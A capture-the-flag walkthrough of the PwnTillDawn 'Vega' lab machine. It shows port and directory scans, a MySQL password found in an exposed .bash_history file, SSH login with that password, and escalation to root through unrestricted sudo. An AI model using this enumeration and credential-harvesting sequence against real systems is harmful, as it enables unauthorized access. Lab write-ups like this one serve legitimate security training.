 ```yaml
---
categories: [PwnTillDawn]
tags: [Password Bruteforce, Hid&Trial, PrivEsc]  
img_path: /Vulnhub-Files/img/
image:
  path: Vega/Untitled.png
  alt: PwnTillDawn Machine ➡️ https://www.wizlynxgroup.com/ https://online.pwntilldawn.com/
---
```


## Description ⤵️ 

This is a <kbd>*Hollywood*</kbd> machine writeup/walkthrough, from PwnTillDawn platform -> https://online.pwntilldawn.com/ with is maintain through wizlynx group -> https://www.wizlynxgroup.com/ .


## Port Scan Results ⤵️

```bash
**┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Sun Oct 15 15:37:40 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.222
Nmap scan report for 10.150.150.222
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:56:59:c5:9a:de:f4:a9:b7:8f:34:4b:a2:21:24:71 (RSA)
|   256 1b:e8:16:d4:dc:a6:7a:3e:5d:6f:f2:95:5a:59:08:9a (ECDSA)
|_  256 9c:35:dd:da:ee:a9:b4:0b:55:68:45:fd:8f:85:35:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home Page
8089/tcp  open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:19:54
|_Not valid after:  2022-10-24T09:19:54
|_http-server-header: Splunkd
|_http-title: splunkd
10000/tcp open  http     MiniServ 1.941 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```

## Web Enumeration ⤵️

I started doing directory traversal and I got some results from the `/home` directories →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ dirb 'http://10.150.150.222/' 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 15 20:55:21 2023
URL_BASE: http://10.150.150.222/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.150.150.222/ ----
+ http://10.150.150.222/.bash_history (CODE:200|SIZE:2235)                                                                                       
+ http://10.150.150.222/.bashrc (CODE:200|SIZE:3771)                                                                                             
==> DIRECTORY: http://10.150.150.222/.cache/                                                                                                     
+ http://10.150.150.222/.profile (CODE:200|SIZE:807)                                                                                             
+ http://10.150.150.222/0 (CODE:200|SIZE:82726)                                                                                                  
+ http://10.150.150.222/admin (CODE:302|SIZE:0)                                                                                                  
+ http://10.150.150.222/catalog (CODE:302|SIZE:0)                                                                                                
+ http://10.150.150.222/checkout (CODE:302|SIZE:0)                                                                                               
+ http://10.150.150.222/cms (CODE:200|SIZE:82740)                                                                                                
+ http://10.150.150.222/contact (CODE:200|SIZE:28351)                                                                                            
+ http://10.150.150.222/home (CODE:200|SIZE:80260)                                                                                               
+ http://10.150.150.222/Home (CODE:301|SIZE:0)                                                                                                   
+ http://10.150.150.222/index.php (CODE:200|SIZE:82738)                                                                                          
^C> Testing: http://10.150.150.222/known_hosts
```

Lets check `.bash_history` here →

![Untitled](Vega/Untitled%201.png)

I got a mysql password and username as →

```bash
vega : puplfiction1994
```

I tried this credentials for SSH login and I got it as wrong credentials and I also I tried to download the file dumpmagento.sql to the system and the file was of 0 bytes →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$  ls -al dumpmagento.sql 
-rw-r--r-- 1 kali kali 0 Oct 17 20:30 dumpmagento.sql
```

>It means that → 
>
>1. If the database is empty thats why it is of 0 bytes or .
>2. If the password or the login credentials is wrong that is why.
{: .prompt-tip }

I checked the site again and I got something related to the password like this →

![Untitled](Vega/Untitled%202.png)

Now I compared it with password and got to know that the bash_history entry is of human error so lets use this password insted → 

```bash
vega : pulpfiction1994
```

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ ssh vega@10.150.150.222
vega@10.150.150.222's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 17 16:24:55 UTC 2023

  System load:  0.23               Processes:            186
  Usage of /:   43.2% of 19.56GB   Users logged in:      1
  Memory usage: 21%                IP address for ens33: 10.150.150.222
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

51 packages can be updated.
31 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Apr 21 10:11:55 2020
vega@vega:~$ whoami
vega
vega@vega:~$ id
uid=1000(vega) gid=1000(vega) groups=1000(vega),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
vega@vega:~$ sudo -l
[sudo] password for vega: 
Matching Defaults entries for vega on vega:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vega may run the following commands on vega:
    (ALL : ALL) ALL
vega@vega:~$ sudo su -
root@vega:~# whoami
root
root@vega:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vega:~# cd /root
root@vega:~# ls -al
total 60
drwx------  7 root root 4096 May 14  2020 .
drwxr-xr-x 24 root root 4096 Oct 23  2019 ..
-rw-------  1 root root 2513 Apr 21  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  115 May 14  2020 CAM.shortcut
drwxr-xr-x  2 root root 4096 Sep  6  2019 .composer
-rw-r--r--  1 root root   41 Sep 27  2019 FLAG42.txt
drwx------  3 root root 4096 Oct  4  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep  6  2019 .local
-rw-------  1 root root  651 Apr  2  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep  6  2019 .selected_editor
drwx--x---  2 root root 4096 Oct 25  2019 .splunk
drwx------  2 root root 4096 Sep  6  2019 .ssh
-rw-------  1 root root 2085 Sep 27  2019 .viminfo
root@vega:~#
```

Now I am root !!